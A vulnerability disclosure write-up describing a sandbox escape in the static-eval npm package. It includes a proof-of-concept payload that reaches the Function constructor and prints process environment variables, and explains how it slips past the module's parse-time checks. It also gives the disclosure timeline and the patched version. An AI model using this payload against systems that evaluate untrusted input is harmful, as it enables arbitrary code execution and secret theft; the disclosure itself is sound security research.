 Github: https://github.com/browserify/static-eval

Npm: https://www.npmjs.com/package/static-eval

The static-eval module is used to evaluate statically-analyzable expressions

Matt Austin has found the first sandbox escape vulnerability in the module1, the patch he proposed was bypassed later by Matías Lang 2, Matías's technique relied on the knowledge of a variable name that is passed to Static-eval "vars" variable, and he proposed a patch that protects against his technique. I have found a new exploitation technique that bypasses Matt's patch and doesn't rely on using variable names passed to the "vars" variable which make it more dangerous.

The payload
----------
```
 #nodejs eval.js '(function myTag(y){return ""[!y?"__proto__":"constructor"][y]})("constructor")("console.log(process.env)")()'
 #cat eval.js 
 var evaluate = require('static-eval'); 
 var parse = require('esprima').parse; 
 var src = process.argv[2]; 
 var ast = parse(src).body[0].expression; 
 console.log(evaluate(ast))
```
![Alt text](run.png?raw=true)

Explaining the payload
=====================
Restriction - 1
--------------
```
 else if (node.type === 'MemberExpression') { 
 var obj = walk(node.object); 
 // do not allow access to methods on Function 
 if((obj === FAIL) || (typeof obj == 'function')){ 
 return FAIL; 
 }
```
The above check makes sure that the user input doesn't call a function method, this will protect against normal payloads like:
```
"".constructor.constructor
```
because typeof ```"".constructor == 'function'```.

Restriction - 2
----------------
```
for(var i=0; i<node.params.length; i++){ 
 var key = node.params[i]; 
 if(key.type == 'Identifier'){ 
 vars[key.name] = null; 
 } 
 else return FAIL; 
 }
```
If the user input contains a function definition “FunctionExpression”, Static-eval will set the value for all the function arguments to null during the AST parsing, however when the function is being executed in runtime its arguments will receive their values from the call statement

Bypassing the restrictions
------------------------
I created a payload that will trick the first restriction by providing a fake object of type "object" during the AST parsing and provide the correct object of type function during the runtime.

**during the AST parsing:**
```
y=null 
""[!y?"__proto__":"constructor"] ===evaluate===> ""["__proto__"] ===> which has typeof = "object" ===> restrictions bypassed :)
```
**during the runtime:**
```
y="constructor" 
""[!y?"__proto__":"constructor"] ===evaluate===> ""["constructor"] ===> access gained to constructor function
```
Timeline
-----------
The Issue was reported to NPM on 7-Oct-2019
Fixed on v2.0.3 ```https://github.com/browserify/static-eval/releases/tag/v2.0.3```

References
---------
1 https://maustin.net/articles/2017-10/static_eval
2 https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/

